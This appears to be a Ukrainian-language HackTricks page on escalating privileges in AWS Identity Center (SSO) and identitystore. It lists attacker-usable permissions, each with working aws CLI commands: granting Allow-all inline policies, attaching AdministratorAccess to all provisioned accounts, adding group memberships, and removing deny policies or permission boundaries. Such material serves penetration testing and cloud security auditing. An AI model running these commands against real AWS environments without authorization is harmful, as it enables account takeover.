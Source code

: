 # AWS - SSO & identitystore Privesc

{{#include ../../../banners/hacktricks-training.md}}

## AWS Identity Center / AWS SSO

Для отримання додаткової інформації про AWS Identity Center / AWS SSO перегляньте:

{{#ref}}
../aws-services/aws-iam-enum.md
{{#endref}}

> [!WARNING]
> Зверніть увагу, що за **замовчуванням** лише **користувачі** з правами **з** **Управлінського облікового запису** зможуть отримати доступ і **керувати IAM Identity Center**.\
> Користувачі з інших облікових записів можуть це дозволити лише якщо обліковий запис є **делегованим адміністратором.**\
> [Перегляньте документацію для отримання додаткової інформації.](https://docs.aws.amazon.com/singlesignon/latest/userguide/delegated-admin.html)

### ~~Скидання пароля~~

Легкий спосіб підвищити привілеї в таких випадках, як цей, полягає в тому, щоб мати дозвіл, який дозволяє скинути паролі користувачів. На жаль, можливо лише надіслати електронний лист користувачу для скидання його пароля, тому вам знадобиться доступ до електронної пошти користувача.

### `identitystore:CreateGroupMembership`

З цим дозволом можливо додати користувача до групи, щоб він успадкував усі дозволи, які має група.
```bash
aws identitystore create-group-membership --identity-store-id <tore-id> --group-id <group-id> --member-id UserId=<user-id>
```
### `sso:PutInlinePolicyToPermissionSet`, `sso:ProvisionPermissionSet`

Зловмисник з цим дозволом може надати додаткові дозволи до набору дозволів, який надано користувачу під його контролем.
```bash
# Set an inline policy with admin privileges
aws sso-admin put-inline-policy-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --inline-policy file:///tmp/policy.yaml

# Content of /tmp/policy.yaml
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "Statement1",
"Effect": "Allow",
"Action": ["*"],
"Resource": ["*"]
}
]
}

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
### `sso:AttachManagedPolicyToPermissionSet`, `sso:ProvisionPermissionSet`

Зловмисник з цим дозволом може надати додаткові дозволи до Набору дозволів, який надано користувачу під його контролем.
```bash
# Set AdministratorAccess policy to the permission set
aws sso-admin attach-managed-policy-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --managed-policy-arn "arn:aws:iam::aws:policy/AdministratorAccess"

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
### `sso:AttachCustomerManagedPolicyReferenceToPermissionSet`, `sso:ProvisionPermissionSet`

Зловмисник з цим дозволом може надати додаткові дозволи до Набору дозволів, який надано користувачу під його контролем.

> [!WARNING]
> Щоб зловживати цими дозволами в цьому випадку, вам потрібно знати **ім'я політики, що керується клієнтом, яка є в усіх облікових записах**, які будуть під впливом.
```bash
# Set AdministratorAccess policy to the permission set
aws sso-admin attach-customer-managed-policy-reference-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --customer-managed-policy-reference <customer-managed-policy-name>

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
### `sso:CreateAccountAssignment`

Зловмисник з цим дозволом міг би надати Набір дозволів користувачу під його контролем для облікового запису.
```bash
aws sso-admin create-account-assignment --instance-arn <instance-arn> --target-id <account_num> --target-type AWS_ACCOUNT --permission-set-arn <permission_set_arn> --principal-type USER --principal-id <principal_id>
```
### `sso:GetRoleCredentials`

Повертає короткострокові облікові дані STS для вказаного імені ролі, яка призначена користувачу.
```
aws sso get-role-credentials --role-name <value> --account-id <value> --access-token <value>
```
Однак вам потрібен токен доступу, якого я не впевнений, як отримати (TODO).

### `sso:DetachManagedPolicyFromPermissionSet`

Зловмисник з цим дозволом може видалити асоціацію між керованою політикою AWS та вказаним набором дозволів. Можливо надати більше привілеїв через **від'єднання керованої політики (політика заборони)**.
```bash
aws sso-admin detach-managed-policy-from-permission-set --instance-arn <SSOInstanceARN> --permission-set-arn <PermissionSetARN> --managed-policy-arn <ManagedPolicyARN>
```
### `sso:DetachCustomerManagedPolicyReferenceFromPermissionSet`

Зловмисник з цим дозволом може видалити асоціацію між політикою, керованою замовником, та вказаним набором дозволів. Можливо надати більше привілеїв шляхом **від'єднання керованої політики (політики заборони)**.
```bash
aws sso-admin detach-customer-managed-policy-reference-from-permission-set --instance-arn <value> --permission-set-arn <value> --customer-managed-policy-reference <value>
```
### `sso:DeleteInlinePolicyFromPermissionSet`

Зловмисник з цим дозволом може видалити дозволи з вбудованої політики з набору дозволів. Можливо надати **більше привілеїв, відключивши вбудовану політику (політика заборони)**.
```bash
aws sso-admin delete-inline-policy-from-permission-set --instance-arn <SSOInstanceARN> --permission-set-arn <PermissionSetARN>
```
### `sso:DeletePermissionBoundaryFromPermissionSet`

Зловмисник з цим дозволом може видалити межу дозволів з набору дозволів. Можливо надати **більше привілеїв, видаливши обмеження на набір дозволів**, наданий межою дозволів.
```bash
aws sso-admin   delete-permissions-boundary-from-permission-set --instance-arn <value> --permission-set-arn <value>
```
{{#include ../../../banners/hacktricks-training.md}}
